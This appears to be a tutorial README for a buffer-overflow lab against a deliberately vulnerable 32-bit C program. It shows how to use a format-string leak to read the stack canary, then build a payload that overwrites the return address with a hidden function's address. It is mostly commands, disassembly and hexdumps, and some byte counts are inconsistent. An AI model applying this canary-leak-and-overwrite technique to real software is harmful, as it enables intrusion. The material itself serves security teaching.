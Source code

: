 # 0. Requirementes
- Ubuntu 16 **32 bits**: https://releases.ubuntu.com/16.04/
- GDB - GNU Debugger
- GCC
- GDB-PEDA: https://github.com/longld/peda
- Python
- Perl
- hexdump

# 1. Compile the `fmt.c` program
```bash
$ gcc fmt.c -o fmt
fmt.c: In function ‘echo’:
fmt.c:35:5: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
     gets(buf);
     ^
fmt.c:36:12: warning: format not a string literal and no format arguments [-Wformat-security]
     printf(buf);
            ^
/tmp/ccxLZfST.o: In function `echo':
fmt.c:(.text+0x11c): warning: the `gets' function is dangerous and should not be used.

```

# 2. Check buffer overflow
```bash
$ python -c "print('A' * 400)" | ./fmt
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Segmentation fault (core dumped) # <-- buffer overflow
```

```bash

```

# 3. Check canary
```bash
$ gdb -q fmt
Reading symbols from fmt...(no debugging symbols found)...done.
gdb-peda$ disas echo
Dump of assembler code for function echo:
   0x080486d7 <+0>:	push   ebp
   0x080486d8 <+1>:	mov    ebp,esp
   0x080486da <+3>:	sub    esp,0x38
   0x080486dd <+6>:	mov    eax,gs:0x14
   0x080486e3 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x080486e6 <+15>:	xor    eax,eax
   0x080486e8 <+17>:	mov    DWORD PTR [ebp-0x30],0x0
   0x080486ef <+24>:	sub    esp,0xc
   0x080486f2 <+27>:	push   0x8048873                # each time a function is called
   0x080486f7 <+32>:	call   0x8048440 <printf@plt>   # the parameter is pushed to the stack
   0x080486fc <+37>:	add    esp,0x10
   0x080486ff <+40>:	sub    esp,0xc
   0x08048702 <+43>:	lea    eax,[ebp-0x2c]
   0x08048705 <+46>:	push   eax                      # each time a function is called
   0x08048706 <+47>:	call   0x8048450 <gets@plt>     # the parameter is pushed to the stack
   0x0804870b <+52>:	add    esp,0x10
   0x0804870e <+55>:	sub    esp,0xc
   0x08048711 <+58>:	lea    eax,[ebp-0x2c]
   0x08048714 <+61>:	push   eax                      # each time a function is called
   0x08048715 <+62>:	call   0x8048440 <printf@plt>   # the parameter is pushed to the stack
   0x0804871a <+67>:	add    esp,0x10
   0x0804871d <+70>:	sub    esp,0xc
   0x08048720 <+73>:	push   0x8048884                # each time a function is called
   0x08048725 <+78>:	call   0x8048490 <puts@plt>     # the parameter is pushed to the stack
   0x0804872a <+83>:	add    esp,0x10
   0x0804872d <+86>:	sub    esp,0xc
   0x08048730 <+89>:	lea    eax,[ebp-0x2c]
   0x08048733 <+92>:	push   eax                      # each time a function is called
   0x08048734 <+93>:	call   0x8048624 <readPayload>  # the parameter is pushed to the stack
   0x08048739 <+98>:	add    esp,0x10
   0x0804873c <+101>:	nop
   0x0804873d <+102>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048740 <+105>:	xor    eax,DWORD PTR gs:0x14
   0x08048747 <+112>:	je     0x804874e <echo+119>
   0x08048749 <+114>:	call   0x8048470 <__stack_chk_fail@plt> # <-- Stack canary check
   0x0804874e <+119>:	leave  
   0x0804874f <+120>:	ret    
End of assembler dump.
```

# 4. Browsing the stack
```bash
$ ./fmt
Enter a string: AAAA-%5$x
AAAA-2f

How many bytes should I read from your payload.bin?
0
File [payload.bin] not found

$ ./fmt
Enter a string: AAAA-%7$x
AAAA-41414141               #<-- our input in HEX

How many bytes should I read from your payload.bin?
0
File [payload.bin] not found
```

Now we look for the canary position:
```bash
$ for i in {1..4}; do
> echo "AAAA-%15\$x" | ./fmt
> done
Enter a string: AAAA-25913e00

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Enter a string: AAAA-e0d28f00

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Enter a string: AAAA-54de3700

How many bytes should I read from your payload.bin?
File [payload.bin] not found
Enter a string: AAAA-bf2c7200

How many bytes should I read from your payload.bin?
File [payload.bin] not found
```

Note that we receive the same **two** last values.

# 5. How many bytes?
```bash
   0x080486ff <+40>:	sub    esp,0xc
   0x08048702 <+43>:	lea    eax,[ebp-0x2c]   # 2c (hex) = 44 (dec), address of the buffer
   0x08048705 <+46>:	push   eax
```

We need:
- **44** bytes to hit the EBP register
- ** 4** bytes to fill the EPB register (32 bits system)
- ** 4** bytes to reach the return address
 
So, the payload must have **52** bytes to replace the return address by the address of the hackMe function

32 bytes + 
BUFFER + CANARY + GAP + RETURN ADDRESS|
---|

# 6. Constructing the payload
## 6.1 Current canary value (it changes on every run):
```bash
gdb-peda$ run
Starting program: /home/cgd17/Documents/buffer-overflow/hackMe/fmt 
Enter a string: AAAA-%15$x
AAAA-fa1b2f00

How many bytes should I read from your payload.bin?
0
File [payload.bin] not found
[Inferior 1 (process 3271) exited normally]
Warning: not running
```

## 6.2 'hackMe()' return address
```bash
gdb-peda$ info address hackMe
Symbol "hackMe" is at 0x804860b in a file compiled without debugging.
```
In little-endian: 0x0b860408

## 6.3 Payload
```bash
$ hexdump -C payload.bin
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00000020  00 72 5d 75 42 42 42 42  42 42 42 42 42 42 42 42  |.r]uBBBBBBBBBBBB|
00000030  0b 86 04 08 0a                                    |.....|
00000035
```

Add these values to the `payload.pl` file in reverse orden (little endian).

# 7. Attack
Run the program:
```bash
$ ./fmt
Enter a string: AAAA-%15$x
AAAA-570d8800

How many bytes should I read from your payload.bin?

```

Generate the payload, remember to update the canary value in `payload.pl`:
```bash
$ perl payload.pl > payload.bin
$ hexdump -C payload.bin
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00000020  00 72 5d 75 42 42 42 42  42 42 42 42 42 42 42 42  |.r]uBBBBBBBBBBBB| # 20(hex) = 32(dec)
00000030  0b 86 04 08                                       |....|
00000034

```

Continue the program:
```bash
$ ./fmt
Enter a string: AAAA-%15$x
AAAA-570d8800

How many bytes should I read from your payload.bin?
52
That's impossible!!!
Segmentation fault (core dumped)
```

---
More info: https://www.youtube.com/watch?v=0iQhCe-PefE
